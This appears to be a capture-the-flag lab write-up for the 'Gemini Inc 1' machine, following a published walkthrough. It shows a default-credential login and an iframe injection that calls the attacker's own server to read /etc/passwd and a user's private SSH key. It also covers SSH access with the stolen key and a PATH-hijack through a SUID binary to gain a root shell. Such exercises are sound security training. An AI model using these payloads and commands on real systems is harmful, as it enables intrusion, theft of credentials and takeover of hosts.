








# Exercise 1: Gemini Inc 1

Nmap full scan:  

Webpage:  

Check master-login-system default credentials

Github page links to a youtube video: <https://www.youtube.com/watch?v=y7SdQfZfLbA>

At 1:13, it shows a user ‘admin’ and password ‘1234’, which worked when logging into the site. Did not work when logging into ssh

I was stuck, so I followed the walkthrough <https://www.hackingarticles.in/hack-the-gemini-inc-ctf-challenge/>

Create index.php file:  

Run a php server at the same directory as index.php file: php -S 0.0.0.0:4444

In Actions -\> Edit profile, set display name as the following:  
\<iframe height="1000" width="800" src="http://192.168.50.5:4444/?file=/etc/passwd"\>\</iframe\>

where the 192.168.x.x is our Kali IP

Go back to profile and go to Actions -\> Export profile

Gemini1, UID 1000

Go back to Actions -\> Edit profile and set new display name as:

\<iframe height="1000" width="800" src="http://192.168.50.5:4444/?file=/home/gemini1/.ssh/id_rsa"\>\</iframe\>

We have the private RSA key for user Gemini1. We save this into a file login_rsa

Then, run ssh: ssh -i login_rsa [gemini1@192.168.50.18](mailto:gemini1@192.168.50.18) on the same directory as login_rsa file

find / -perm -u=s -type f 2\>/dev/null

to find any possible privilege escalation entry via SUID permissions

Explore listinfo:  

It calls date and netstat.

Execute:

cd /tmp   
echo "/bin/sh" \> date  
chmod 777 date  
echo \$PATH  
export PATH=/tmp:\$PATH  
/usr/bin/listinfo

